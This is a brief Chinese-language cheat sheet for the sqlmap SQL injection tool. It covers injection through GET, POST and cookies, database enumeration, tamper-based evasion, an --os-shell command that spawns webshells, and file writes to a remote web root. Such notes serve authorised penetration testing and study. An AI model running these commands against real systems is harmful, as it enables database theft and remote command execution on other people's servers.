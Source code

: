 # SqlMap

Sqlmap配有强大的侦测引擎，适用于高级渗透测试用户，不仅可以获得不同数据库的指纹信息，还可以从数据库中提取数据，此外还能够处理潜在的文件系统以及通过数据连接执行系统命令

# 安装

这就不用了，老傻瓜式操作了

# 三种注入方式

Get: 

```
sqlmap -u url
```

Post:

```
sqlmap -u url --forms                //自动获取表单数据
sqlmap -r post.txt                   //从文件中获取Post包
sqlmap -u url --date "test=testsqli" //手动输入Post信息
```

Cookie:

```
sqlmap -u url --cookie "test=testcookie" //手动输入cookie
```

# 获取数据库信息

```
sqlmap -u url --current-user       //获取用户名
sqlmap -u url --current-db         //获取数据库名
sqlmap -u url --database           //获取所有数据库
sqlmap -u url -D database --count  //查看数据量大小
sqlmap -u url --privileges         //查看用户权限
```

# 连接数据库

```
sqlmap -d "mysql://username:password@host:port/databse"

需要自行安装PyhMySql (Github直接搜索就有)
```

# 延时注入

```
sqlmap -u url --delay 2 延时两秒
sqlmap -u url -safe-freq
```

# 命令执行

```
sqlmap -u url --os-shell可以直接生成两个webshell
```

# Tamper

```
sqlmap -u url --tamper="脚本名称"
```

# 文件写入

```
sqlmap -u url --file-write "./mst/mst.txt" --file-dest "d:/www/1.html"  //file-write为本地 file-dest为远程
```

# 目录结构

```
doc/ ---->>>该文件夹包含了sqlmap 的具体使用说明，例如多种语言的简要说明、PDF版的详细说明、FAQ、作者信息等。

extra/  --->>>这里包含了sqlmap的多种额外功能，例如发出声响（beep)、运行cmd、安全执行、shellcode等。

lib/   --->>>这里包含了sqlmap的多种连接库，如五种注入类型请求的参数、提权操作等。

plugins/  --->>>这里包含了各种数据库的信息和数据库通用事项。

procs/    --->>> 这里包含了mssqlserver、 mysql、oracle和postgresql的触发程序

shell/    --->>>这里包含了多种注入成功后的9种shell 远程连接命令执行和管理数据库

tamper/       --->>>这里包含了47种的绕过脚本，例如编码绕过、注释绕过等。

thirdparty/  --->>>这里包含了一些其他第三方的插件，例如优化、保持连接、颜色等。

txt/        --->>>这里包含了一些字典，例如用户浏览器代理、表、列、关键词等。

udf/  --->>>这里包含了用户自己定义的攻击载荷。

waf/ --->>>>这里包含了一些44种常见的防火墙特征。

xml/ --->>>这里包含了多种数据库的注入检测载荷、旗标信息以及其他信息。在这里可以看到进行注入的。

README.md--->>>说明文件，简要地指导我们下载、安装和使用sqlmap，里面有多种语言版本(中文)的安装下载使用介绍说明。

sqlmap.conf  --->>>> sqlmap的配置文件，如各种默认参数（默认是没有设置参数、可设置默认参数进行批量或者自动化检测）。

sqlmap.py*  --->>>> 这是sqlmap 的主程序，可以调用各种参数进行注入任务。

sqlmapapi.py*  --->>>>  这是sqlmap 的api 文件，可以将sqlmap集成到其他平台上。
```

## Reference

https://blog.csdn.net/qq_29277155/article/details/51646932